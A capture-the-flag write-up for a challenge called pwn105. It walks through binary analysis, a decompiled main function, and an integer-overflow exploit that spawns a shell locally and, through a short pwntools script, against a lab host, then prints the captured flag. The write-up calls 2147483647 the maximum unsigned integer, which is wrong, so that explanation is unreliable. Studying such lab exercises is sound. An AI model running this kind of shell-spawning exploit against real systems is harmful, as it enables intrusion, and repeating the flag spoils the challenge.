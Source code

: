 # pwn105

- [Binary Analysis](#binary-analysis)
- [Local Exploitation](#local-exploitation)
- [Remote Exploitation](#remote-exploitation)

```text

The challenge is running on port 9005

```

## Binary Analysis

```bash
$ ls
pwn105

$ file pwn105 
pwn105: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=efe6d094462867e6b08e74de43fb7126e7b14ee4, for GNU/Linux 3.2.0, not stripped

$ checksec --file=pwn105
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

The *radare2* tool is used to further analyze the track.

```text
[0x000010a0]> afl
0x00001030    1      6 sym.imp.puts
0x00001040    1      6 sym.imp.__stack_chk_fail
0x00001050    1      6 sym.imp.system
0x00001060    1      6 sym.imp.printf
0x00001070    1      6 sym.imp.setvbuf
0x00001080    1      6 sym.imp.__isoc99_scanf
0x00001090    1      6 sym.imp.__cxa_finalize
0x000010a0    1     42 entry0
0x000010d0    4     34 sym.deregister_tm_clones
0x00001100    4     51 sym.register_tm_clones
0x00001140    5     54 entry.fini0
0x00001180    1      9 entry.init0
0x00001000    3     23 sym._init
0x00001420    1      1 sym.__libc_csu_fini
0x00001424    1      9 sym._fini
0x00001211    3     61 sym.banner
0x000013c0    4     93 sym.__libc_csu_init
0x0000124e    9    364 main
0x00001189    3    136 sym.setup

```

Among the symbols, the *main* function is identified. 

We proceed with the inspection of the decompiled code of the *main* function with *ghidra*.

```c

void main(void)

{
  long in_FS_OFFSET;
  uint num1;
  uint num2;
  uint sum;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("-------=[ BAD INTEGERS ]=-------");
  puts("|-< Enter two numbers to add >-|\n");
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&num1);
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&num2);
  sum = num2 + num1;
  if (((int)num1 < 0) || ((int)num2 < 0)) {
    printf("\n[o.O] Hmmm... that was a Good try!\n",(ulong)num1,(ulong)num2,(ulong)sum);
  }
  else if ((int)sum < 0) {
    printf("\n[*] C: %d",(ulong)sum);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
  }
  else {
    printf("\n[*] ADDING %d + %d",(ulong)num1,(ulong)num2);
    printf("\n[*] RESULT: %d\n",(ulong)sum);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The program receives two non-negative integer values ​​and returns their sum. If *sum* is a negative value, then the program launches a shell.

This suggests an **Integer Overflow Vulnerability** that we can exploit to bypass checks on the values ​​sent by the user.

To clarify the exploit and the path to follow, below is an interesting portion of the **Control Flow Graph** of the *main* function.

![radare2 control flow graph](./cfg.png)

Value to pass:
- **value1** not signed
- **value2** not signed

Results must be:
- **value1+value2** signed, `cmp [var_ch], 0; js 0x134b`

The idea is to add `1` to the` maximum unsigned integer` value that can be represented with a DWORD (4 bytes).

## Local Exploitation

The **maximum unsigned integer value** is `2147483647` (`0x7FFFFFFF`).

```bash
$ ./pwn105 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
$ whoami
ap
$ 
```

Works!

## Remote Exploitation

Build and run the `exploit` script and use the *pwntools* library.

```python
#!/usr/bin/env python3
from pwn import remote

REMOTE, PORT = '10.10.208.103', 9005

max_signed_int="2147483647"

io=remote(REMOTE, PORT)
io.sendline(max_signed_int.encode())
io.sendline(b'1')
io.interactive()

```

```bash
$ ./exploit 
[+] Opening connection to 10.10.208.103 on port 9005: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> ]>> 
[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
$ ls
flag.txt
pwn105
pwn105.c
$ cat flag.txt
THM{VerY_b4D_1n73G3rsss}
$  
```

GG :3

